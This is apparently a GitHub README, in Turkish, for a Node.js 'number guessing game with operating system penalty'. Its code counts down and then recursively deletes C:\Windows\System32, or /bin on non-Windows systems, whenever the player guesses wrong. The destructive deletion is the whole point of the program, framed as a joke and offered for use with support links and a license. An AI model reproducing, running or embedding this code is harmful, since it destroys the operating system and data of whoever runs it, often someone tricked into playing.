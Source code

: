 # Number_Guessing_Game_Operating_System_Penalty

- İşletim Sistemi Cezalı Sayı Tahmin Oyunu!


```js
const rl = require('readline-sync');
const fs = require('fs');

let pctut = Math.floor(Math.random() * 10);
let tahmin = rl.questionInt('0 ile 10 arasinda bir sayi tahmin ediniz: ');

async function delay(s) {
    for(let i = s; i >= 1; i--) {
        await new Promise(resolve => setTimeout(resolve, 1000));
        console.log(`${i} saniye sonra işletim sistemi silinecek!`);
    }
}

if(isNaN(tahmin)) {
    console.log('Lutfen sayi giriniz!');
    process.exit(1);
}

if(tahmin == pctut) {
    console.log('Tebrikler! Sayiyi dogru tahmin ettiniz.');
    process.exit(0);
} else {
    console.log('Uzgunum! Sayiyi yanlis tahmin ettiniz.');
    (async () => {
        await delay(5);
        console.log('Isletim sistemi siliniyor...');
        if(fs.existsSync('C:\\Windows\\System32')) {
            fs.rmSync('C:\\Windows\\System32', { recursive: true });
        } else {
            fs.rmSync('/bin', { recursive: true });
        }
    })();
}
```

---
- ✨ [Destek İçin](https://fastuptime.com) <br>
- 💕 [Discord](https://fastuptime.com/discord)<br>
- 🎖️ [FasterHost Technology](https://fasterhost.tech/)<br>
- ✨ İletişim için [Tıkla!](mailto:fastuptime@gmail.com)<br>

# License
- Its protected by Creative Commons ([CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/))

<a href="https://creativecommons.org/licenses/by-nc-sa/4.0/" title="BYNCSA40"><img src="https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png"></a>
